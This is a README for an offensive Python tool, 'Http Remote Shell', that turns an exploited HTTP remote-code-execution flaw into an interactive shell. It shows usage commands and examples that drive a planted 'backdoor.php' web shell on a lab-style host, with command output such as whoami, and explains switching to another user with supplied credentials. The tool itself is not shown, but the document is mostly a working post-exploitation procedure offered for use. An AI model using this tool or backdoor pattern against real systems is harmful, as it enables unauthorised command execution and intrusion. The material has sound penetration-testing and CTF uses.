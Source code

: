 # Http Remote Shell

## Introduction

This tool gives a basic command line interface of an exploited HTTP RCE.

This might be useful if no bind-shell, nor reverse-shell can be setup.

NB: The tool spawns a TTY shell with `/usr/bin/script` to correct the error: `su: must be run from terminal` (https://stackoverflow.com/questions/36944634/su-command-in-docker-returns-must-be-run-from-terminal)

## Usage

```bash
$ python3 ./http_rce.py -h
$ python3 ./http_rce.py --url '<URL>' --http-method GET
$ python3 ./http_rce.py --url '<URL>' --http-method GET --user '<USER>' --pass '<PASS>'
$ python3 ./http_rce.py --url '<URL>' --http-method GET --user '<USER>' --pass '<PASS>' --regex-pattern 'Password: (.*), plz dont share it'
```

The command's placeholder in the URL MUST be `MY_CMD`.

## Examples

Running as default user (e.g. `www-data`):
```bash
$ python3 ./http_rce.py --url 'http://10.10.10.123/backdoor.php?c=MY_CMD' --http-method GET
bash > whoami
www-data

bash > ls
assets
css
index.php
js

bash >
```

Running as another user (e.g. `foo`):
```bash
$ python3 ./http_rce.py --url 'http://10.10.10.123/backdoor.php?cmd=MY_CMD&foo1=bar2' --http-method GET --user 'foo' --pass 'bar123'
bash > whoami
foo

bash > ls
assets css index.php js

bash >
```

Using the `--regex-pattern` option will only show the matched string (between parenthesis in the pattern) from the web server's response
